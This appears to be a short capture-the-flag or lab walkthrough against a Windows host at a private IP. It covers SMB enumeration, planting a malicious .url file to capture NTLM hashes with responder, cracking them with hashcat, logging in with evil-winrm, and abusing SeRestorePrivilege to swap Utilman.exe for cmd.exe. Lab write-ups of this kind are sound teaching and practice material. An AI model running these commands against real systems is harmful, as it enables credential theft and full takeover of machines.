







Os info using enum4linux:
# 445

We discover smb shares:
DocumentsShare seems interesting.

Now putting @evil.url in DocumentsShare:

And running responder:
```
sudo responder -A -I tun0
```
We got a hash:

We can crack this:
```
hashcat -m 5600 hashes.txt '/home/aditya/Documents/Kali/rockyou.txt' -O
```

We can connect through evil-winrm:
```
evil-winrm -i 192.168.182.172 -u anirudh -p SecureHM
```


We have SeRestorePrivilege so we can access all files:
```
ren "C:/Windows/System32/Utilman.exe" Utilman.old
ren "C:/Windows/System32/cmd.exe" Utilman.exe
```
Now connect via rdesktop and do `win + u`
\